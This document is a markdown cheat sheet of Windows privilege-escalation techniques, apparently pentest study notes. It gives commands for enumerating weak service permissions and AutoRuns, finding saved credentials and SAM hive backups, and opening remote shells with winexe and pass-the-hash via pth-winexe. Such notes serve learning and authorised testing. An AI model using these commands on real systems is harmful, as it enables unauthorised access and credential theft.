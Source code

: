 # Tools - Privilege escalation

1. Winpeas
2. sharup
3. powerup

Userpermissions check - accesschk.exe, But old version only supports --accepteula command line option

#### Techniques
##### 1. Kernel exploits

Tools
Windows exploit suggester
Waston - For recent version of Windows

Precompiled kernel exploits
SecWiki

##### 2. Service Misconfigurations

Command to check all service misconfigurations.

```
.\winpeas quiet servicesinfo
```

##### a. Insecure Service Properties

Weakness exploitable => Modifying the service configuration file by changing the binpath referring malicious.exe file. Upon executing, the reverse shell can be obtained.

Command  

Use accesschk.exe to check the permission to change the config of service, start/stop the service
```
.\accesschk.exe /accepteula -uwcqv user <service name>
```

```
sc qc <Servicename>
```
Check the START_TYPE
DEMAND_START means that the service can be start manually <br />
Binary path name and any dependencies can be identified. <br />
Service_Start_Name => LocalSystem => Means service is running with system privilege  <br />

```
sc query <servicename>
```
STATE => Current state of the service, started or stopped.

##### b. Unquoted Service Path


##### c. Weak Registry Permissions
##### d. Insecure Service Executables
##### e. DLL Hijacking

##### 3. Registry exploits

##### a. AutoRuns

If we are able to write to an AutoRun executable and able to restart the system,then t is possible to escalate privileges
```
.\winPEASany.exe quiet applicationsinfo
```

Command to enumerate the AutoRun executables manually

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Then use accesschk.exe to verify the permissions of each service.

```
.\accesschk.exe /accepteula -wvu "C:\ProgramFiles\<Sample Program>\<program.exe>"
```

##### b. AlwaysInstallElevated

##### 4. Passwords

##### a. Searching Registry password

To check common password locations

```
.\winPEASany.exe quiet filesinfo userinfo
```

Using winexe command, we can spawn a shell

```
# winexe -U '<username>%<password>' //192.168.X.X cmd.exe
```

##### b. Saved Creds

Use winPEAS to check for saved credentials:

```
.\winPEASany.exe quiet cmd windowscreds
```

To doublecheck the output manually using following command

```
cmdkey /list
```

##### c. Searching for configruation files

Unattented.xml file

```
.\winPEASany.exe quiet cmd searchfast filesinfo
```

##### d. SAM & Passing the Hash

SAM and SYSTEM file default location
```
C:\Windows\System32\config
```

Backups of the files may exist in the following directories
```
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```

Once hashes are obtained, in either ways we can spwan a cmd.exe
1. Crack the hashes and use winexe to spawn a shell
2. Use pth-winexe 

```
pth-winexe --system -U '<Username>%aad3b435b51404eeaad3b435b51404ee:<Users Hash>' //192.168.X.X cmd.exe
```
--system - To spwan system (admin) shell

Without --system, it could be normal user shell.
  
  
  
